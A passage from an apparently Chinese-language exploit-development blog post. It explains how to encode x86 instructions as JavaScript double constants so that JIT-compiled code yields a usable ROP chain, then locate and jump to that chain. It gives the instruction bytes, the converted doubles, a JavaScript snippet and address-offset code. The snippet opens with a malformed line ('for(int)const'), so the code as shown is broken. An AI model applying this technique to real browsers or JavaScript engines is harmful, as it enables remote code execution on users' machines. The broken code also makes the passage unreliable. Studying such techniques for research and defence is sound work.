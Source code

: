 总结一下就是, 我们可以通过操作数来冒充指令. 由于我们最大只能传送`8byte`的数据, 所以我们的程序指令一次不能超过`8byte`. 

我们有哪些命令呢, 我找了一个[在线网站](https://defuse.ca/online-x86-assembler.htm#disassembly)转换了一下:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_14.png)

从上面可以看到. 我们从`pop rcx`开始到`ret`指令, 总共只有`7 byte`, 所以是可以一次放完的.

第一条和第二条指令合起来只有`7byte`. 所以我们可以合起来, 但是如果我们想要执行第三条命令的话. 我们需要一个`jmp 6`指令, 一个`jmp 6`占两个`byte`, `7+2` > `8`. 所以我们头三条指令通通拆分开.

`jmp 后面为什么接的是6呢.`, 这个可以通过计算两个指令之间的偏移得到.(这里我说的有一点语焉不详... 主要是因为调试着看一看会好比语言会好很多...)

所以我们按照8byte进行详细的分组:

> [+] 第一次分组(填充数据):
>> 4887D4909090eb06 488B24249090eb06 488B64242690eb06 595A41584159C390

> [+] 第二次分组(配合小端序):
>> 06eb909090d48748 06eb909024248b48 06eb903824648b48 90c3594158415a59

> [+] 第三次分组(转化double):
>> 2.487982602987859e-275  2.487982018260472e-275 2.4878608212525747e-275 -6.380930795567661e-228

`js`代码如下:

``` js
    for(int)const construct_rop_chain = function(){
         const D = 2.487982602987859e-275;
         const A = 2.487982018260472e-275;
         const B = 2.4878608212525747e-275;
         const C = -6.380930795567661e-228;
    };
```

验证一下我们的`ROP`链:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_19.png)

然后我们再来看内存, 很舒服的我们就有了一个自己构建的`ROP`链. 接着我们想想怎么去用代码来找到`ROP`链. 我们可以看到:

``` js
    let rop = Add(construct_rop_chain_func_addr, 0x97b);    // 0x97b；来自于我们我们构造的rop链和函数的偏移.

    console.log("[+] We got our Rop chain at: " + rop);
```

将代码里面的`rip`控制到`rop`处, 运行一下:

![](https://github.com/redogwu/Just-pwn-it-for-fun/blob/master/img/img_01/blog_22.gif)


很好, 万事`OK`, 我们成功的运行到了我们的`ROP`链, 现在程序崩溃的原因只是因为我们的`rsp`里面的内容不对而已, 接下来的事就是如何构造参数(也就是如何填充`rsp`).

###### 构造参数与返回地址.

构造参数的话, 你可以再看一下我们的`ROP`链代码(需要自己去调试). 会发现`rsp`来源于我们的`rdx`. 所以, `rdx`是啥.

源代码当中有一个`TargetAddress`. 可以添加如下的代码:

